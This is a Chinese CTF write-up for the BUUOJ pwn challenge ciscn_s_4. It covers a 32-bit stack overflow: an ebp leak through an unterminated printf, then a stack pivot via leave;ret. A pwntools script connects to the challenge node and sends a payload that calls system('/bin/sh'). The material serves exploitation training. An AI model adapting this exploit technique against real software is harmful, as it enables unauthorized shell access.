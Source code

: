 ```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

程序 vuln() 存在栈溢出：

```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 48u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

程序有 `system` 无 `/bin/sh`。

第一次 `printf` 可以泄漏 ebp address，从而推断出 s 的起始地址，观察到 vul() 栈溢出之后函数直接返回，可以控制返回地址为 `leave;ret` 做栈迁移。

```py
from pwn import *
from sys import argv

leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

proc = "./ciscn_s_4"
context.log_level = "debug"
context.binary = proc
elf = ELF(proc, checksec=False)
io = remote("node5.buuoj.cn", 26439) if argv[1] == 'r' else process(proc)

if args.G:
	gdb.attach(io)

payload1 = b'a' * 36 + b'bbbb'
io.send(payload1)
io.recvuntil(b'bbbb', drop=True)
s_addr = u32(io.recv(4)) - 0x38
leak("s_addr", s_addr)

system_addr = 0x8048400
binsh_addr = s_addr + 12
leave_ret = 0x08048562

payload2 = p32(system_addr) + b'dead' + p32(binsh_addr) + b"/bin/sh\x00"
payload2 += b'c' * (40 - len(payload2))
payload2 += p32(s_addr - 4)
payload2 += p32(leave_ret)
io.sendline(payload2)

itr()

```

考点：printf 不截断导致泄漏、栈溢出、[[栈迁移]]
